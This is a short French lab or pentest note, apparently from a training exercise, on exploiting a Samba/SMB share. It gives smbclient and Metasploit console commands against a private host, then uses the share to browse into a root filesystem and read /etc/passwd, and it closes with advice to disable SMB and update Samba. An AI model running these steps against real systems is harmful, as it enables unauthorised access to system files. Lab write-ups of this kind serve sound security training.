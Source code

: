 # Exploit SMB avec Methaploit

```bash

smbclient -L //10.6.0.7
msfconsole
set RHOST 10.6.0.7
set SMBSHARE tmp
run
exit

smbclient //10.6.0.7/tmp
cd roottfs
cd etc
more passwd
```
![smb](Images/smb.png)

## Recommandation de sécurité
- Désactiver SMB
- Mettre à jour Samba